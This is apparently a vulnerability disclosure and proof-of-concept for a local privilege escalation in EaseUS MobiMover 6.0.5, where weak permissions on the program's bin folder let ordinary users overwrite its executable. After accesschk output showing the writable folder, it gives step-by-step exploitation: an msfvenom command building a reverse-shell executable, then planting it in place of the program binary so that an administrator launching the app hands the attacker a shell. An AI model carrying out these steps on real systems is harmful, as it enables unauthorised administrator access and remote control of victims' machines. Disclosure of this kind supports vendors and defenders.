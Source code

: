 # EaseUS MobiMover 6.0.5 Build 21620 - Insecure Files and Folders Permissions
MobiMoverUILaunch.exe  suffers from an elevation of privileges vulnerability which can be used by an "Authenticated User" to modify the executable file of the service with a binary of his choice under bin folder . The vulnerability exist due to weak set of permissions being granted to the "Authenticated Users Group" which grants the (M) Flag aka "Modify Privilege"

![alt text](https://i.imgur.com/X4VIUbq.png)

Vendor Homepage: https://www.easeus.com/ <br/>
Software Link : https://down.easeus.com/product/mobimover_trial_setup<br/>
Google Drive: https://drive.google.com/file/d/1tqP00IV-WzqNpyE1Rnqwdg_44RxOhINQ/view?usp=sharing <br/>
POC video: https://www.youtube.com/watch?v=FR4cQm-z4Gw </br>


#PoC
```
C:\Users\creatigon>accesschk -uwvqd "C:\Program Files (x86)\EaseUS\EaseUS MobiMover\bin"

Accesschk v6.15 - Reports effective permissions for securable objects
Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files (x86)\EaseUS\EaseUS MobiMover\bin
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
        FILE_ALL_ACCESS
  RW NT SERVICE\TrustedInstaller
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
```

1. Create malicious binary file on kali linux with msfvenom <br/>
```msfvenom -f exe -p windows/x64/shell_revese_tcp LHOST=<IP> LPORT=<PORT> -f exe -o prepare.exe```

2. Transfer created 'prepare.exe' to the Windows Host from Kali as low level user access <br/>
3. Move the created 'prepare.exe' binary file to the 'C:\Program Files (x86)\EaseUS\EaseUS MobiMover\bin\prepare.exe' to replace the old one as low level user access <br/>
4. When Administrator run the application,you will get reverse shell as administrator <br/>

   
